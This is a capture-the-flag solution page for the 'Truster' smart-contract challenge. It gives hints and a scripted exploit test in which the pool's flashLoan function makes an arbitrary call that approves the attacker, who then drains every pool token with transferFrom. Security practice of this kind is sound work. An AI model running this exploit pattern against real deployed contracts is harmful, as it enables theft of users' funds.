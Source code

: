 # 3 - Truster

### Notes

While the challenge description says “But don't worry, you might be able to take them all from the pool. In a single transaction.” _do not take this to mean that the level can be solved in one single transaction_.

### Hints

<details>

<summary>Hint One</summary>

The `flashLoan` function doesn’t perform any checks on either of the addresses it takes as arguments. Doesn’t that seem a bit dangerous to you?

</details>

<details>

<summary>Hint Two</summary>

What is the `msg.sender` on the function calls `flashLoan` makes to the target address?

</details>

<details>

<summary>Hint Three</summary>

You can pass any value to `borrowAmount` from 0 to the total number of tokens in the pool.

</details>

### Scripted Solution

```javascript
it('Exploit', async function () {
  // Call `flashLoan` with a `data` payload that approves attacker
  await this.pool.flashLoan(
    // uint256 borrowAmount
    0,
    // address borrower
    attacker.address,
    // address target
    this.token.address,
    // bytes calldata data
    this.token.interface.encodeFunctionData('approve', [
      attacker.address,
      TOKENS_IN_POOL
    ])
  )

  // Call `transferFrom` to withdraw all tokens to attacker
  await this.token
    .connect(attacker)
    .transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
})
```

